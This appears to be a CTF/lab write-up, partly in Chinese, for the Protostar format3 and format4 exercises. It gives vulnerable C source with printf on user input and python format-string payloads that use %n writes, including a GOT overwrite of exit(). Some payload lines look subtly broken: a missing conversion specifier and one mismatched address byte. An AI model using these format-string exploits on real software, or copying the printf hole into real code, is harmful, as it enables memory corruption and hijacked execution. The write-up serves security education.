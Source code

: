 # Protostar: Format 3

This level advances from format2 and shows how to write more than 1 or 2 bytes of memory to the process. This also teaches you to carefully control what data is being written to the process memory.

This level is at `/opt/protostar/bin/format3`.

### Source Code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void printbuffer(char *string)
{
    printf(string);
}

void vuln()
{
    char buffer[512];

    fgets(buffer, sizeof(buffer), stdin);

    printbuffer(buffer);

    if(target == 0x01025544) {
        printf("you have modified the target :)\n");
    } else {
        printf("target is %08x :(\n", target);
    }
}

int main(int argc, char **argv)
{
    vuln();
}
```



## 攻击目标

使程序输出：`you have modified the target :)`。



## 攻击过程

```shell
$ python -c 'print "\xf4\x96\x04\x08" + "%08x" * 10 + "%16930032x" + "%08n"' | ./format3
```

<img src=".\format3-result.png" style="zoom: 67%;" />



## 原理分析

### 解法一：与format2相同

查看`vuln()`和`printbuffer()`的汇编代码：

<img src=".\format3-disas-1.png" style="zoom:67%;" />

<img src=".\format3-disas-2.png" style="zoom:67%;" />

<img src=".\format3-disas-3.png" style="zoom:67%;" />

程序在运行时的的栈空间如图所示：

<img src=".\format2-analysis-1.png" style="zoom:67%;" />

我们要计算出从`*string`到`buffer`的偏移。

```shell
$ objdump -t format3 | grep target # 查看target的地址
```

<img src=".\format3-analysis-5.png" style="zoom:67%;" />

```shell
$ python -c 'print "DDDD" + "%08x." * 15' | ./format3 # 算出偏移为11DWORD（%08x：读取一个DWORD，以8位16进制数的形式输出，不足位的用0补齐）
```

<img src=".\format3-analysis-6.png" style="zoom:67%;" />

```shell
$ python -c 'print "\xf4\x96\x04\x08" + "%08x" * 11 + "%08n"' | ./format3 # 找到target的位置写入
target is 5c
```

`target is 5c`说明已经将字符串长度写到了target的位置。

<img src=".\format3-analysis-7.png" style="zoom:67%;" />

```shell
$ python -c 'print "\xf4\x96\x04\x08" + "%08x" * 10 + "%16930032x" + "%08n"' | ./format3 # 在%08n前拼凑长为0x01025544-0x5c = 16930116 - 84 = 16930032的字符串（%16930032x：读取一个DWORD，以16930032位16进制数的形式输出，不足位的用空格补齐）
```

<img src=".\format3-result.png" style="zoom:67%;" />



### 解法二：控制`printf()`参数指针

我们也可以将要写入的值分段写入。如下图所示，分成了三段：

<img src=".\format3-analysis-1.png" style="zoom:67%;" />

所以，我们需要构造分段统计长度的格式化字符串：

<img src=".\format3-analysis-2.png" style="zoom:67%;" />

在`printf()`的参数中，有一个特殊的指针，可以指向`*string`指针下的每一个DWORD，我们已经在解法一中得到偏移量为11个DWORD，所以可以轻松得到我们需要写入的地址的指针：

<img src=".\format3-analysis-3.png" style="zoom:67%;" />

综上所述我们可以构造出格式化字符串：

```shell
$ python -c 'print "\xf4\x96\x04\x08\xf5\x96\x04\x08\xf6\x96\x04\x08" + "%56x%12$n" + "%17x%13$n" + "%173x%14$n"' | ./format3
```

<img src=".\format3-analysis-8.png" style="zoom:67%;" />



### 解法三：SCUT paper

思路类似于解法二，但关键在于每个%n前的偏移量的计算，算法来源于论文《Exploiting Format String Vulnerabilities》。

<img src=".\format3-analysis-4.png" style="zoom:67%;" />

据此可构造格式化字符串：

```shell
$ python -c 'print "DDDD" + "\xf4\x96\x04\x08" + "DDDD" + "\xf5\x96\x04\x08" + "DDDD" + "\xf6\x96\x04\x08" + "DDDD" + "\xf7\x96\x04\x08" + "%x." * 11 + "%220u%n" + "%17u%n" + "%173u%n" + "%255u%n"' | ./format3
```

<img src=".\format3-analysis-9.png" style="zoom:67%;" />



<div STYLE="page-break-after: always;"></div>

# Protostar: Format 4

format4 looks at one method of redirecting execution in a process.

> **Hints:**
>
> - objdump -TR is your friend

This level is at `/opt/protostar/bin/format4`.

### Source Code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void hello()
{
    printf("code execution redirected! you win\n");
    _exit(1);
}

void vuln()
{
    char buffer[512];

    fgets(buffer, sizeof(buffer), stdin);

    printf(buffer);

    exit(1);  
}

int main(int argc, char **argv)
{
    vuln();
}
```



## 攻击目标

使程序输出：`code execution redirected! you win`。



## 攻击过程

```shell
python -c 'print "\x24\x97\x04\x08" + "\x25\x97\x04\x08" + "\x27\x97\x04\x08" + "%168x%4$n" + "%976%5$n" + "%132%6$n"' | ./format4
```

<img src=".\format4-result.png" style="zoom:67%;" />



## 原理分析

如果程序正常运行，`hello()`不会被调用。

```shell
(gdb) p hello # hello()的入口地址0x080484b4
```

<img src=".\format4-analysis-3.png" style="zoom:67%;" />

所以，我们要利用代码中的`printf()`，将`hello()`的入口地址覆写到存储着`exit()`的入口地址的位置上，如图。

<img src=".\format4-analysis-1.png" style="zoom:67%;" />

`exit()`是c标准库中的一个函数，c标准库以动态链接库的形式装载进我们的程序中。一般一个程序要调用动态链接库中的函数，它会维护两个表，PLT和GOT——PLT内存储的是一些短小的代码，用于协助主函数进行跳转；GOT里存储的是跳转要去往的目标地址。所以我们要找到GOT中`exit()`的跳转地址，将其中存储的`exit()`的入口地址覆写为`hello()`的入口地址。

```shell
$ objdump -TR format4 # exit()的跳转地址为0x08049724
```

<img src=".\format4-analysis-4.png" style="zoom:67%;" />

```shell
$ python -c 'print "DDDD" + "%08x." * 5' | ./format4 # 计算偏移值，为3DWORD，所以参数指针为4$。
```

<img src=".\format4-analysis-5.png" style="zoom:67%;" />

因为0x080484b4视作一个数的时候较大，所以我们采用分段写入的方式。为了让分段写入的数字递增，可以进行拼凑和补充，如下图所示：

<img src=".\format4-analysis-2.png" style="zoom:67%;" />

综上所诉，可以构造格式化字符串：

```shell
python -c 'print "\x24\x97\x04\x08" + "\x25\x97\x04\x08" + "\x27\x97\x04\x07" + "%168x%4$n" + "%976%5$n" + "%132%6$n"' | ./format4
```

<img src=".\format4-result.png" style="zoom:67%;" />
